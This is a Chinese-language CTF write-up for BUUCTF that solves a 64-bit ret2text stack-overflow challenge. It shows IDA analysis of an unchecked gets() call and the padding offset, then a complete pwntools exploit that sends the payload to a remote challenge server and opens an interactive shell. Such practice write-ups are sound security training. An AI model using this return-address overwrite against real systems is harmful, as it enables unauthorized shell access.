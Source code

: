 ```yaml
---
title: BUUCTF_0x2
categories: 
    - CTF刷题记录
    - BUUCTF
---
```

# BUUCTF_0x2
<!--more-->
## 1.01栈溢出之ret2text

### ret2text 64

很简单的一个栈溢出
直接IDA分析

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012194826370.png#pic_center)

从main函数跟进到welcome函数
get() 很明显的溢出

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012194915979.png#pic_center)

```python
payload = 'a'*(0x80+8)
```
因为是64位的，所以后面要加上8
Shift+F12 

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012195035341.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

发现/bin/sh 果然够简单的。。。
双击进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012195145849.png#pic_center)

再双击

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012195243513.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

找到地址
exp：

```python
from pwn import *

p=remote('111.231.70.44',28072)

payload='a'*(0x80+8) + p64(0x40063B)

p.sendline(payload)

p.interactive()
```
